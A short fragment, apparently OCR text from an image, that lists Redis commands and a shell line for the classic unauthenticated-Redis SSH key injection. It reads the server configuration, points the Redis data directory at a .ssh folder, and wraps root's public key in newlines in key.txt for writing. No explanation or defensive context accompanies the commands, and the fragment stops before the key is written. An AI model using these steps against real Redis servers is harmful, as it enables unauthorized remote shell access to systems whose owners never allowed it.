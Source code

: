 ```GET CONFIG *```

```CONFIG get dir /var/lib/redis```

```CONFIG set dir /var/lib/redis/.ssh```

```
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

```
